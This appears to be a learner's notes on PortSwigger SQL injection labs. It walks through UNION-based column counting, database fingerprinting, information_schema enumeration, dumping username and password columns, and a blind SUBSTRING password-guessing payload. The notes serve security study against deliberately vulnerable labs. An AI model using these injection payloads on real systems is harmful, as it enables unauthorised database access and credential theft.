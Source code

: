 # SQL Injections

Most SQL Injections occur in the SELECT clause hoever we can also expand to other attacks such as the SQL [Union](https://www.w3schools.com/sql/sql_union.asp) attacks.
Union attacks are quite restrictive since they require
- The two queries return the same number of columns
- Data types between queries must be compatible

Since Union appends the results from the first query with the results of the second query (by column)

To find the number of columns we can utilizes the ORDER BY sent in a where clause i.e.,

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
[Using Unions and Null values](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/determining-the-number-of-columns-required-6r5t)

Or using union select and a number of null values. Since NULL is compatible with every common data type, and we must have all values returns by the injected select to be compatible with. If successfull the result returns an additional row with all NULL values in the columns, however is succestuble to NULL POINTER EXCEPTION

```
UNION SELECT NULL [,NULL]--
```

![Lab discover columns](./labfindcols.png)

In this lab we discover the number of columns in a SQL query notice after trying three NULLs there is an extra row of NULLS at the bottom!

## [Database specific queries](https://portswigger.net/web-security/sql-injection/cheat-sheet)
Oracle requires the use of the FROM after a SELECT call. We may use DUAL which is a default table always available

On mySQL the comment commnad `--` should always be followed by a SPACE


## Looking for string data

String data usually is what we want to exfiltrate from the website, hence looking for a column that is compatible with string data comes in handy the typical way is to submit SQL UNION statements with a string character i.e.,`'a'` and check that the website response.

E.g. ' UNION SELECT 'a',NULL,NULL,NULL -- 

![StringData](./stringdata.png)

In this lab we send the SQL query when looking for accesories


> Database names and columns are difficult to find. Sometimes we need to guess however, all moderns Databases have a function to examine the tables and columns, if only we can access that functionality... 


### Lab Usefull data
In this lab we have discovered a SQL vulnerability in the filtering of the website. Now hypothetically assume there is a table called users with a username and password column.. ah now we can use a modified query to extract this data

```
UNION SELECT username,password FROM users --
```

lab solved


> Internal Server Error : Indicators of SQL server processing command and giving response

## Combining columns in SQL from the database

In ORACLE we can use the double pipe to concatonate columns

```
' UNION SELECT username || '~' || password FROM users--
```

In this case we join the fields with a '~'. Concatonation may be diffrent depending on the database

![lab_complte](./simplelab.png)


## Gather the information about the DATABASE!
Information gathering is the most important step of trying to break in!
- What type and version of database are they running
- What tables and columns do they contain

This can be done by doing these queries:

```
Database type	    Query
Microsoft, MySQL	SELECT @@version
Oracle	            SELECT * FROM v$version
PostgreSQL	        SELECT version()
```

To aqcuire the table and columns we can attempt to use information schemas. i.e.,

 `SELECT * FROM information_schema.tables`

 ![tables](./tables.png)

and further more we can query the columns using 

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

![columns](./lab_examining_db/columns.png)

## [Lab SQL Injection Examining Database](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle#) 

First we try this query on the known SQLi vulnerable filter 
> Food & Drink ' UNION SELECT table_name,NULL FROM information_schema.tables --

![res](./lab_examining_db/tab_tables.png)
We get alot of tables but looking through the [html](./lab_examining_db/labTB_return1.html)
two tables stick out sticks out from the query results
- pg_user
- pg_auth_members

Lets check the user table with the next query

> Accessories ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user' -- 

And we get these columns aha!
![column_good](./lab_examining_db/table_columns.png)

Lets finally check what the column consist of by doing a union on usename and passwd

> ' UNION SELECT col_a, col_b FROM table_name -- 
Hmm the passwords are not in cleartext infact they are just ****** symbols?![dead_end](./lab_examining_db/deadend.png)

Dead end?!

We try a broader query attempting to identify any column which have username or password and which tables

Query Broad:
> Gifts ' UNION SELECT 'tablename: ' || table_name,'column_name: ' || column_name FROM information_schema.columns WHERE 1=1 --

[see returned html](./lab_examining_db/query_broad_ret.html)

Aha we do a simple match for password or pass and get a hit!

```HTML
<tr>
    <th>tablename: pg_roles</th>
    <td>column_name: rolpassword</td>
</tr>
```

However checking we also get ****** as password, Dead End?! the next match we see is

```HTML
<tr>
    <th>tablename: users_rgeana</th>
    <td>column_name: password_ryvjln</td>
</tr>
```

this one looks promising, some obsufication done by Portswigger aswell! andd... we found the valid return!

> Gifts ' UNION SELECT password_ryvjln,username_wcwybq FROM users_rgeana  -- 

![admin-pass](./lab_examining_db/complete.png)


## Blind SQL Queries

Blind SQL occurs when the server does not return the results from an SQL query. Thus the techiniques using UNION are not effective :(

However there are ways to exploit sql depending on changes in observable website behaviour such as the [tracking cookie](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/exploiting-blind-sql-injection-by-triggering-conditional-responses)

The exploit boils down to extracting data one step at the time by writing conditional values at the end of the query to the cookie.

Imagine a Genie that only answers yes/no how would you extract information? 
- Slowly
e.g., The date
- Is today year >2000? Is it <2030? 
- Is today month >6? Is it <7? 
- Is today >1 AND < 5? 

... repeat with narrower and narrower intervals

For instance guessing the password 
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

### [Lab Blind SQL with conditional response](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses)

In this lab we will need to do some bruteforce hence what will be used is Burp Intruder!
